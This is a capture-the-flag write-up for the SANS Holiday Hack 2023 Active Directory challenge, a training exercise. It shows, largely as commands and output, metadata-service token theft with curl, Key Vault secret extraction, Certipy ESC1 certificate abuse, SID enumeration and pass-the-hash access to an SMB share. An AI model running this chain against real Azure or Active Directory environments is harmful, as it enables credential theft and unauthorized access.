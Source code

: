 # Writeup for The 2023 SANS Holiday Hack Challenge: A Holiday Odyssey \| Featuring 6: Geese A-Lei'ing!
## 	Active Directory
Difficulty: :christmas_tree::christmas_tree::christmas_tree::christmas_tree:  
Go to Steampunk Island and help Ribb Bonbowford audit the Azure AD environment. What's the name of the secret file in the inaccessible folder on the FileShare?

### Hints
#### Useful Tools
*From: Ribb Bonbowford*  
It looks like Alabaster's SSH account has a couple of tools installed which might prove useful.
#### Misconfiguration ADventures
*From: Alabaster Snowball*  
Certificates are everywhere. Did you know Active Directory (AD) uses certificates as well? Apparently the service used to manage them can have misconfigurations too.

### Solution
I went back as `alabaster` on the `ssh-server-vm` from [Certificate SSHenanigans]() and realized the reason for the `impacket` folder. I started poking around with Azure APIs a little more, discovering an Azure Key Vault resource:
```bash
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resources?api-version=2021-04-01
{"value":[{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv","name":"northpole-it-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{}},{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv","name":"northpole-ssh-certs-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{}}]}
```
```bash
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/providers/Microsoft.KeyVault/vaults?api-version=2022-07-01
{"value":[{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-it-kv","name":"northpole-it-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{},"systemData":{"createdBy":"thomas@sanshhc.onmicrosoft.com","createdByType":"User","createdAt":"2023-10-30T13:17:02.532Z","lastModifiedBy":"thomas@sanshhc.onmicrosoft.com","lastModifiedByType":"User","lastModifiedAt":"2023-10-30T13:17:02.532Z"},"properties":{"sku":{"family":"A","name":"Standard"},"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","accessPolicies":[],"enabledForDeployment":false,"enabledForDiskEncryption":false,"enabledForTemplateDeployment":false,"enableSoftDelete":true,"softDeleteRetentionInDays":90,"enableRbacAuthorization":true,"vaultUri":"https://northpole-it-kv.vault.azure.net/","provisioningState":"Succeeded","publicNetworkAccess":"Enabled"}},{"id":"/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults/northpole-ssh-certs-kv","name":"northpole-ssh-certs-kv","type":"Microsoft.KeyVault/vaults","location":"eastus","tags":{},"systemData":{"createdBy":"thomas@sanshhc.onmicrosoft.com","createdByType":"User","createdAt":"2023-11-12T01:47:13.059Z","lastModifiedBy":"thomas@sanshhc.onmicrosoft.com","lastModifiedByType":"User","lastModifiedAt":"2023-11-12T01:50:52.742Z"},"properties":{"sku":{"family":"A","name":"standard"},"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","accessPolicies":[{"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","objectId":"0bc7ae9d-292d-4742-8830-68d12469d759","permissions":{"keys":["all"],"secrets":["all"],"certificates":["all"],"storage":["all"]}},{"tenantId":"90a38eda-4006-4dd5-924c-6ca55cacc14d","objectId":"1b202351-8c85-46f1-81f8-5528e92eb7ce","permissions":{"secrets":["get"]}}],"enabledForDeployment":false,"enableSoftDelete":true,"softDeleteRetentionInDays":90,"vaultUri":"https://northpole-ssh-certs-kv.vault.azure.net/","provisioningState":"Succeeded","publicNetworkAccess":"Enabled"}}],"nextLink":"https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/providers/Microsoft.KeyVault/vaults?api-version=2022-07-01&$skiptoken=bm9ydGhwb2xlLXJnMXxub3J0aHBvbGUtc3NoLWNlcnRzLWt2"}
```

Switching token for the resource https://vault.azure.net, I was able to get the content of the Vault:
```bash
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://northpole-it-kv.vault.azure.net/secrets?api-version=7.4
{"value":[{"id":"https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript","attributes":{"enabled":true,"created":1699564823,"updated":1699564823,"recoveryLevel":"Recoverable+Purgeable","recoverableDays":90},"tags":{}}],"nextLink":null}
alabaster@ssh-server-vm:~$ token=$(curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s | jq .access_token | tr -d '"') && curl -H "Authorization: Bearer $token" https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=7.4
{"value":"Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru","id":"https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d","attributes":{"enabled":true,"created":1699564823,"updated":1699564823,"recoveryLevel":"Recoverable+Purgeable","recoverableDays":90},"tags":{}}
```

The secret contains the following Powershell script with hardcoded credentials in clear text:
```cmd
Import-Module ActiveDirectory;
$UserName = "elfy";
$UserDomain = "northpole.local";
$UserUPN = "$UserName@$UserDomain";
$Password = ConvertTo-SecureString "J4`ufC49/J4766" -AsPlainText -Force;
$DCIP = "10.0.0.53";
New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname "" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru
```

I then ran certipy to obtain vulnerable certificate configurations from AD:
```bash
alabaster@ssh-server-vm:~/impacket$ certipy find -u elfy@northpole.local -p 'J4`ufC49/J4766' -dc-ip 10.0.0.53 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'northpole-npdc01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via RRP
[*] Got CA configuration for 'northpole-npdc01-CA'
[*] Saved BloodHound data to '20231217214704_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20231217214704_Certipy.txt'
[*] Saved JSON output to '20231217214704_Certipy.json'
```

Looking at the output from `certipy`, I observed that the `NorthPoleUsers` template was vulnerable:
```bash
  # Output removed to shorten report
  "Certificate Templates": {
    "0": {
      "Template Name": "NorthPoleUsers",
      "Display Name": "NorthPoleUsers",
      "Certificate Authorities": ["northpole-npdc01-CA"],
      # Output removed to shorten report
      "[!] Vulnerabilities": {
        "ESC1": "'NORTHPOLE.LOCAL\\\\Domain Users' can enroll, enrollee supplies subject, and template allows client authentication"
      }
    }
  },
```

Based on that, I started the exploitation:
```bash
alabaster@ssh-server-vm:~/impacket$ lookupsid.py 'northpole.local/elfy:J4`ufC49/J4766@10.0.0.53'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.0.0.53
[*] StringBinding ncacn_np:10.0.0.53[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1338289034-4095587347-713453443
# Output removed to shorten report
1103: NORTHPOLE\researchers (SidTypeGroup)
1104: NORTHPOLE\elfy (SidTypeUser)
1105: NORTHPOLE\wombleycube (SidTypeUser)
# Output removed to shorten report
```
```bash
alabaster@ssh-server-vm:~/impacket$ certipy auth -pfx 'wombleycube.pfx' -username 'wombleycube' -domain 'northpole.local' -dc-ip 10.0.0.53 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: wombleycube@northpole.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'wombleycube.ccache'
[*] Trying to retrieve NT hash for 'wombleycube'
[*] Got hash for 'wombleycube@northpole.local': aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
```
```bash
alabaster@ssh-server-vm:~/impacket$ smbclient.py -dc-ip 10.0.0.53 -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 -target-ip 10.0.0.53 northpole.local/wombleycube@npdc01.northpole.local
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# shares
# use FileShare
# cd super_secret_research
# ls
drw-rw-rw-          0  Sun Dec 17 01:15:12 2023 .
drw-rw-rw-          0  Sun Dec 17 01:15:12 2023 ..
-rw-rw-rw-        231  Sun Dec 17 01:15:12 2023 InstructionsForEnteringSatelliteGroundStation.txt
```

The filename `InstructionsForEnteringSatelliteGroundStation.txt` is the flag and once downloaded I could get the content which will be useful for the Speaker Access:
```
Note to self:

To enter the Satellite Ground Station (SGS), say the following into the speaker:

And he whispered, 'Now I shall be out of sight;
So through the valley and over the height.'
And he'll silently take his way.
```